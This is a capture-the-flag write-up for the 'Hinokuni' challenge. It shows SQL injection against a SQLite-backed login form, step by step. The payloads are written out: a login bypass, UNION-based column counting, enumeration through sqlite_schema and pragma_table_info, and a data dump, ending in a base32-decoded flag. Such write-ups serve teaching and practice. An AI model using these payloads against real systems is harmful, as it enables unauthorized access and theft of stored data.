 ```yaml
---
title: bsides2022 – Hinokuni
tags: SQL, injection
---
```


## Challenge

> TODO: finish Konohagakure's homepage

The link led to a website that showed a login form. Any username/password combination entered allowed a login, leading to a page with the following content and a link to log out:

```
Y0u g07 |7 <0ngr47$[]
```

## Solution

### Discovery

The password field allows SQL injection. So entering `' OR 1==1 --` would allow you to log in and show the following:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"teja"},
{"id":2,"password":"user1"},
{"id":3,"password":"user2"},
{"id":4,"password":"krishna"},
{"id":5,"password":"sai"}]
```

It seems like the empty square brackets in the original output was the output of a SQL query of the passwords database. (Also: Don't store passwords in plain text maybe? 🤷‍♂️)

Using `sqlmap`, I found out that this is a SQLite installation.

### Exploitation

Using a UNION, we can append any further SQL query with the same amount of rows on the database to the output, exfiltrating any data we want. To find out how many rows are actually queried (this doesn't have to be the same as the printed output), we can add a `,1` to `' OR 1==1 UNION SELECT 1,1,[…] --` and check whether or not we get an output (no output means an SQL error). We confirm that the original query has two parameters.

SQL databases generally have a table that stores all available tables in the database. By querying this table, we can see what data might be available. The query here is `' UNION SELECT  1, name FROM sqlite_schema --`. I am no longer bypassing the login to only get the new data. This returns:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"customers"},
{"id":1,"password":"data"},
{"id":1,"password":"media_types"},
{"id":1,"password":"sqlite_sequence"},
{"id":1,"password":"users"}]
```

The `id` is always `1` (as we queried `1` for the first row), while the `password` field actually contains the table names: `customers`, `data`, `media_types`, `sqlite_sequence`, `users`.

Next, I wanted to query `data`. To be able to do this, I first needed the column names. Fortunately, SQLite provides a macro that gets those for any table (other databases usually have a table for this). Query: `' UNION SELECT 1, name FROM pragma_table_info('data') --` Result:

```
Y0u g07 |7 <0ngr47$
[{"id":1,"password":"id"},
{"id":1,"password":"label"},
{"id":1,"password":"otp"}]
```

Again, the `password` field is the interesting one. So we got columns `id`, `label`, and `otp`. `id` seems the least interesting, so I queried `label` and `otp`: `' UNION SELECT label, otp FROM data --`. This returned a lot of data (~100000 rows), so here are the first few:

```
Y0u g07 |7 <0ngr47$
[{"id":"MZWGCZ33NAYGWYLHGNPWINDUORSWENDZGB6Q====","password":499497},
{"id":"SUCCESS","password":1},
{"id":"SUCCESS","password":2},
{"id":"SUCCESS","password":100010},
{"id":"SUCCESS","password":100032},
{"id":"SUCCESS","password":100037},
{"id":"SUCCESS","password":100082},
{"id":"SUCCESS","password":100098},
{"id":"SUCCESS","password":100114},
{"id":"SUCCESS","password":100136},
{"id":"SUCCESS","password":100141},
{"id":"SUCCESS","password":100142},
{"id":"SUCCESS","password":100156},
{"id":"SUCCESS","password":100163},
{"id":"SUCCESS","password":100170},
{"id":"SUCCESS","password":100184},
{"id":"SUCCESS","password":100188},
{"id":"SUCCESS","password":100194},
{"id":"SUCCESS","password":100202},
{"id":"SUCCESS","password":100219},
{"id":"SUCCESS","password":100223},
{"id":"SUCCESS","password":100239},
{"id":"SUCCESS","password":100245},
{"id":"SUCCESS","password":100250},
{"id":"SUCCESS","password":100257}]
```

The first `label` entry seemed interesting here (`MZWGCZ33NAYGWYLHGNPWINDUORSWENDZGB6Q====`). It seems to be some sort of encoding. The `====` might indicate `base64`, but it has too many `=`s and only upper case letters, so I tried `base32`, and got:

```
flag{h0kag3_d4tteb4y0}
```
